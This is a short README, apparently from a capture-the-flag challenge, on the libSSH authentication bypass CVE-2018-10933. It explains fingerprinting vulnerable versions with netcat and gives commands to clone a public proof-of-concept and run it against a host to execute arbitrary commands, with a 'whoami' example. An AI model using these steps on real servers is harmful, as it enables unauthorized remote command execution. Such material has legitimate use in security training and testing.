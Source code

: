 # They_Are_Coming

## Introduction

Upon connecting via netcat (`nc`), the server provides the name of the libSSH library. If the output is 0.7.5, 0.6.*, or lower, the server is vulnerable to CVE-2018-10933.

## CVE-2018-10933 Proof of Concept

This repository contains a proof of concept for CVE-2018-10933.

### Installation

Clone the repository:

```bash
git clone https://github.com/blacknbunny/CVE-2018-10933.git
```

### Usage

- Navigate to the cloned directory.
- Run the exploit script with the appropriate parameters:

```py
    python libsshauthbypass.py --host <ip> --port <port> --command <command_line>```

Replace <ip> with the IP address of the vulnerable server, <port> with the port number, and <command_line> with the desired command to execute.

### Example

```py
    python libsshauthbypass.py --host 192.168.1.100 --port 22 --command "whoami"```

This command will exploit the vulnerability on a server with IP address 192.168.1.100 listening on port 22, executing the whoami command.
